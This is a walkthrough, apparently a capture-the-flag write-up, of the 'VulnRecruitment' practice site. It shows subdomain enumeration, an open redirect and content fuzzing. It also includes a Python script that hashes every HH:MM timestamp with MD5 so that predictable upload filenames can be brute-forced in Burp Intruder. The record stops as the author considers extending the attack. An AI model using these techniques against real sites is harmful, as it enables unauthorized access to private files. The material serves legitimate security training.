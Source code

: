 # VulnRecruitment

http://www.vulnrecruitment.co.uk/ - 4 flags to find

Front page

![alt](./images/vulnrecruitment-01.png)

I think i'll start with some subdomain enumeration and then come back to the main app and do content discovery etc.

```
└─$ assetfinder -subs-only vulnrecruitment.co.uk
b38f1-uploads.vulnrecruitment.co.uk
vulnrecruitment.co.uk
vulnrecruitment.co.uk
vulnrecruitment.co.uk
```

OK let's quickly check the subdomain we found

![alt](./images/vulnrecruitment-02.png)

Nice easy one there, flag no.1. Note the "google search" link could be an open re-direct to use later.

```http://b38f1-uploads.vulnrecruitment.co.uk/redirect?url=https://www.google.com```

Whilst I'm looking at subdomain enumeration I might as well check if I get any hits with the wordlist.

And yes looks like admin is also a subdomain

![alt](./images/vulnrecruitment-03.png)

OK let's do what I said and go back and do some content discovery on the main domain first. So I didn't find anything beyond the staff path which is linked on the main page

![alt](./images/vulnrecruitment-04.png)

The view profile buttons link to 

- /staff/1
- /staff/2
- /staff/4

Interesting what happened to 3?

![alt](./images/vulnrecruitment-05.png)

OK disgruntled ex employee perhaps?

What's also strange is how employee images are retrieved

```
GET /staff/2/image?id=0fbbd14791d5032e57cb38013a08c791 HTTP/1.1
Host: www.vulnrecruitment.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://www.vulnrecruitment.co.uk/staff/2
Cookie: ctfchallenge=xxx
```

The ID is also a bit weird, it's an MD5 hash which crackstation can match to a timestamp string of '11:18'. Is this relevant?

- /staff/1 - 955dc852b26e9375c7b7858b438f80f6 = 03:28
- /staff/2 - 0fbbd14791d5032e57cb38013a08c791 = 11:18
- /staff/4 - 33379393610f7c99f05c85f9f92deaef = 19:33

Let's try changing the ID to one which won't exist

```
GET /staff/2/image?id=xxx HTTP/1.1
Host: www.vulnrecruitment.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://www.vulnrecruitment.co.uk/staff/2
Cookie: ctfchallenge=xxx
```

Oooo look at that, our previously discovered subdomain domain is mentioned in the response!

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Tue, 07 Jun 2022 14:17:06 GMT
content-type: image/jpeg
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnrecruitment.co.uk
connection: close
Content-Length: 87

404 - Resource (http://b38f1-uploads.vulnrecruitment.co.uk/uploads/2_xxx.jpg) not found
```

So the direct link to Archie's picture would be ```http://b38f1-uploads.vulnrecruitment.co.uk/uploads/2_0fbbd14791d5032e57cb38013a08c791.jpg```

I suspect whoever employee no.3 is, still has stuff in here!

In the meantime I've also done content fuzzing against ```b38f1-uploads.vulnrecruitment.co.uk/FUZZ``` and ```admin.vulnrecruitment.co.uk/FUZZ``` neither of which return us anything we didn't already know about.

I think my next area to look at again is ```b38f1-uploads.vulnrecruitment.co.uk``` as it mentioned the ability to upload content. Perhaps I can do a POST or a PUT.....

And that'll be a no....

```
HTTP/1.1 404 Not Found
server: nginx/1.21.1
date: Tue, 07 Jun 2022 15:21:07 GMT
content-type: text/html; charset=UTF-8
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnrecruitment.co.uk
connection: close
Content-Length: 14

Page Not Found
```

Right can I create an MD5 payload list in the timestamp string range 00:00-23:59? And then request ```http://b38f1-uploads.vulnrecruitment.co.uk/uploads/3_<timestamphash>.jpg```

OK so I was thinking maybe Burp had a from-to payload for time, but it only looks like it has Dates, shame, so python it is. First thing let's check I can recreate the same hexdigest using Python from the MD5. eg

```python
>>> import hashlib
>>> print(hashlib.md5(b"03:28").hexdigest())
955dc852b26e9375c7b7858b438f80f6
```

Yes I can, right now to create the formatted times, so I should be able to create a range for all the minutes in a day eg.

```python
>>> from datetime import datetime, timedelta
>>> (datetime.min + timedelta(minutes=1)).time().strftime('%H:%M').encode()
b'00:01'
```

That's the code needed to create the formatted string, now for a range from 00:00-23:59

```python
>>> from datetime import datetime, timedelta
>>> times = [(datetime.min + timedelta(minutes=i)).time().strftime('%H:%M').encode() for i in range(24*60)]
[b'00:00', b'00:01', b'00:02', b'00:03', b'00:04', ..., b'23:59']
```

Yup that worked OK let's put that all together and create a hashed wordlist

```python
import hashlib
from datetime import datetime, timedelta
times = [hashlib.md5((datetime.min + timedelta(minutes=i)).time().strftime('%H:%M').encode()).hexdigest() for i in range(24*60)]
with open('timehashes.txt', 'w') as wordlist:
    wordlist.write('\n'.join(times))
```

OK perfect that worked. Now to use this in Intruder

YES! I get a hit against ```/uploads/3_d9a39bb5097e8e57d4da9669ea44fd72.jpg```

![alt](./images/vulnrecruitment-06.png)

But who is this mysterious woman? :D

OK perhaps I can extend my attack to a cluster bomb attack to include popular file extensions. Although even with a small list of file extensions that's over 1M requests! Hmmmmmm.......